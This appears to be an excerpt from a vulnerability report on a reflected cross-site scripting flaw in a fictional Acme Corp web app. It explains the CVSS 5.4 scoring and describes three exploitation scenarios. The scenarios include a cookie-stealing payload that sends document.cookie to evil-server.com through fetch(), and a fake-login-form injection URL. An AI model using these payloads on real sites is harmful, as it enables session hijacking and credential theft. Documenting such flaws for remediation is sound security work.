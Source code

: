 - **Low Attack Complexity (AC:L)**: Exploiting this vulnerability is straightforward and doesn't require specialized conditions or timing. An attacker simply needs to create a URL with malicious JavaScript in the "script" parameter.

- **No Privileges Required (PR:N)**: The attacker doesn't need any authentication or special privileges to exploit the vulnerability, as the vulnerable code processes URL parameters before any authentication checks.

- **User Interaction Required (UI:R)**: A successful attack requires the victim to interact by clicking a malicious link or visiting a crafted URL. This slightly reduces the severity compared to vulnerabilities that require no user interaction.

- **Unchanged Scope (S:U)**: The vulnerability only impacts resources managed by the same security authority (the user's browser session for that domain).

- **Low Confidentiality Impact (C:L)**: The vulnerability enables access to sensitive browser data such as cookies and session information, but typically doesn't give direct access to server-side information.

- **Low Integrity Impact (I:L)**: The attacker can modify data within the user's browser session, potentially including form fields or displayed content, but typically cannot directly alter server-side data.

- **No Availability Impact (A:N)**: The vulnerability doesn't typically impact the availability of the application itself.

The resulting CVSS score of 5.4 falls within the Medium severity range (4.0-6.9), indicating a significant security issue that should be addressed promptly, though it may not require the same urgency as vulnerabilities with direct server-side impacts or those that require no user interaction.

# Exploitation Scenarios
**Scenario 1: Session Hijacking**
An attacker crafts a malicious URL like: `https://acme-corp.com/app?script=fetch('https://evil-server.com/steal?cookie='+document.cookie)`. The attacker then distributes this link via email, social media, or through a compromised website. When a victim who is already logged into Acme Corp's application clicks the link, their browser executes the injected JavaScript, which sends their session cookies to the attacker's server. The attacker can then use these cookies to impersonate the victim and access their account.

**Scenario 2: Fake Login Form Injection**
An attacker creates a URL with encoded JavaScript that replaces the content of the page with a convincing but fake login form: `https://acme-corp.com/app?script=document.body.innerHTML='<div class="login-form">...fake form HTML...</div>'`. When users enter their credentials, the form submits them to the attacker's server instead of Acme Corp's legitimate authentication endpoint. This attack is particularly effective because the URL in the address bar still shows the legitimate domain, increasing the victim's trust.

**Scenario 3: Persistent Attack via URL Shortener**
The attacker creates a malicious URL with complex JavaScript payload that manipulates the DOM, steals sensitive information, and potentially alters application behavior. To disguise this lengthy URL, they use a URL shortening service to create a short, innocent-looking link. The shortened URL is then shared on forums, social media, or sent directly to potential victims. When users click it, they're directed to Acme Corp's application with the malicious script parameter, executing the attack without the victim being aware of the underlying malicious code.
